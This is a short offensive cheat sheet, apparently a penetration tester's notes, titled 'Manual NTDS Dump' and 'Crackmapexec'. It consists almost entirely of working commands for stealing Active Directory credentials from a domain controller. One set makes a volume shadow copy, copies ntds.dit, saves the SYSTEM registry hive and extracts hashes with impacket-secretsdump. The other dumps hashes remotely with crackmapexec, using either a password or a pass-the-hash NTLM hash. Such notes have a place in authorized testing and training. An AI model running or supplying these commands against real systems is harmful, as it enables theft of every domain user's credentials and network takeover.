 # Manual NTDS Dump
```bash
# Create shadow copy
vshadow.exe -nw -p  C:

# Create a copy of ntds
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

# Copy system reg
reg.exe save hklm\system c:\system.bak

# Bring to kali and dump
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

-----------------------

# Crackmapexec
```bash
crackmapexec smb <dc-ip> -u Administrator -p Password! --ntds
crackmapexec smb <dc-ip> -u Administrator -H 56e4633688c0fdd57c610faf9d7ab8df --ntds
```
